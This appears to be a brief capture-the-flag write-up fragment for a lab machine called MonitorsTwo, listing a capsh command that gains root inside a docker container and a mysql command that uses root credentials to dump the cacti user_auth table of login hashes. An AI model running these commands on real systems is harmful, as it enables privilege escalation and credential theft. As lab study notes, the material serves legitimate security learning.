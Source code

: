 # MonitorsTwo writeups
### Review
docker priv
```
capsh --gid==0 --uid=0 --
```
```
run mysql command in socket
```
```
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth;"
```
